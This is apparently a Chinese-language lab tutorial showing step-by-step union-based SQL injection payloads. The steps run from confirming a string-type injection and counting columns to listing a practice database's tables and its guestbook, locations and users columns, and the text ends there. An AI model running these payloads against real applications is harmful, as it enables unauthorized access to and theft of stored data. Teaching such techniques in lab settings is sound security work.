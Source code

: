 ###### 判断注入类型

输入`1' or '1'='1'#`，输出了很多内容，说明是字符型注入。

![image-20211101200923569](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952497.png)

###### 用 order by 判断字段数

`1' or 1=1 order by 2 #`

![image-20211101201302247](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952344.png)

​		`1' or 1=1 order by 3 #`

![image-20211101201241125](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952003.png)

###### 确定查询回显位置

`1' union select 1,2#`

![image-20211101201445879](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952209.png)

###### `database()`查询当前的数据库

`1' union select 111,database()#`

![image-20211101201539254](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952960.png)

###### 获取数据库中的table

`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

![image-20211102215124372](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952930.png)

###### 获取表中的column

- 获取guestbook表中的字段：

`1' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook'#`

![image-20211101201805417](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952808.png)



- 获取locations表中的字段：

`1' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='locations'#`

![image-20211102215313097](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031954002.png)



- 获取users表中的字段：

`1' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'#`
